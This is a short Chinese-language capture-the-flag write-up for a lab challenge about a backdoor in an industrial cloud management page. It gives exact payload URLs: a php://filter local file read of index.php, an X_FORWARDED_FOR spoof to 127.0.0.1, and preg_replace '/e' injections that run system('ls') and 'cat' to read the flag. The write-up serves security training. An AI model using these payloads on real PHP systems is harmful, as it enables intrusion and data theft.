


题目：
破坏者会利用工控云管理系统设备维护中心的后门入侵系统





```

1.进入云平台设备维护中心页面，利用php伪协议读取源码。

http://61.147.171.105:60742/index.php?page=php://filter/convert.base64-encode/resource=index.php

2.将得到的源码进行base64解密处理，获取到index.php的源码，在121行可以发现后门，如图所示。


3.对此段代码进行审计，可以发现需要将X_FORWARDED_FOR设置为127.0.0.1，并且用get方式传递三个参数传递给preg_replace函数。

4.使用burp修改http请求头参数，添加X_FORWARDED_FOR，将url设置为

/index.php?pat=/(.*)/e&rep=system('ls')&sub=aa 可以查看文件列表，如图所示。


5.将url设置为 /index.php?pat=/(.*)/e&rep=system('ls+s3chahahaDir')&sub=aa 查看s3chahahaDir文件夹，发现flag文件夹。

6.将url设置为 /index.php?pat=/(.*)/e&rep=system('ls+s3chahahaDir/flag')&sub=aa 查看flag文件夹，发现flag.php文件。

7.将url设置为 /index.php?pat=/(.*)/e&rep=system('cat+s3chahahaDir/flag/flag.php')&sub=aa 查看flag，如图所示。
```




